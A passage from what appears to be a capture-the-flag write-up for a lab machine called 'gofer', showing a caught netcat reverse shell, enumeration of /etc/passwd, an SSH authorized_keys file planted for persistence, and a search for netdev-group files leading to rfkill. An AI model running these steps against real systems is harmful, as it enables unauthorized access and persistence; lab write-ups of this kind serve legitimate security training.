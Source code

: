 ```bash
rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.218] from (UNKNOWN) [10.10.11.225] 60868
id
uid=1000(jhudson) gid=1000(jhudson) groups=1000(jhudson),108(netdev)
```

```bash
grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
jhudson:x:1000:1000:Jocelyn Hudson,,,:/home/jhudson:/bin/bash
jdavis:x:1001:1001::/home/jdavis:/bin/bash
tbuckley:x:1002:1002::/home/tbuckley:/bin/bash
ablake:x:1003:1003::/home/ablake:/bin/bash
```

Quickly dropped an `authorized_key` file to get a proper shell  
```bash
jhudson@gofer:~$ find / -group netdev 2>/dev/null
/dev/rfkill
```

```bash
jhudson@gofer:/dev$ find / -iname "*rfkill*" 2>/dev/null
/dev/rfkill
/var/lib/systemd/rfkill
/sys/class/misc/rfkill
/sys/class/rfkill
/sys/devices/virtual/misc/rfkill
/sys/module/rfkill
/usr/lib/systemd/system/systemd-rfkill.service
/usr/lib/systemd/system/systemd-rfkill.socket
/usr/lib/systemd/systemd-rfkill
/usr/lib/modules/5.10.0-23-amd64/kernel/net/rfkill
/usr/lib/modules/5.10.0-23-amd64/kernel/net/rfkill/rfkill.ko
/usr/lib/modules/5.10.0-23-amd64/kernel/drivers/platform/x86/amilo-rfkill.ko
/usr/include/linux/rfkill.h
/usr/share/bash-completion/completions/_rfkill
/usr/share/man/man8/systemd-rfkill.socket.8.gz
/usr/share/man/man8/systemd-rfkill.service.8.gz
/usr/share/man/man8/systemd-rfkill.8.gz
```
```
SYSTEMD-RFKILL.SERVICE(8)                                                                systemd-rfkill.service                                                               SYSTEMD-RFKILL.SERVICE(8)

NAME
       systemd-rfkill.service, systemd-rfkill.socket, systemd-rfkill - Load and save the RF kill switch state at boot and change

SYNOPSIS
       systemd-rfkill.service

       systemd-rfkill.socket

       /lib/systemd/systemd-rfkill

DESCRIPTION
       systemd-rfkill.service is a service that restores the RF kill switch state at early boot and saves it on each change. On disk, the RF kill switch state is stored in /var/lib/systemd/rfkill/.

KERNEL COMMAND LINE
       systemd-rfkill understands the following kernel command line parameter:

       systemd.restore_state=
```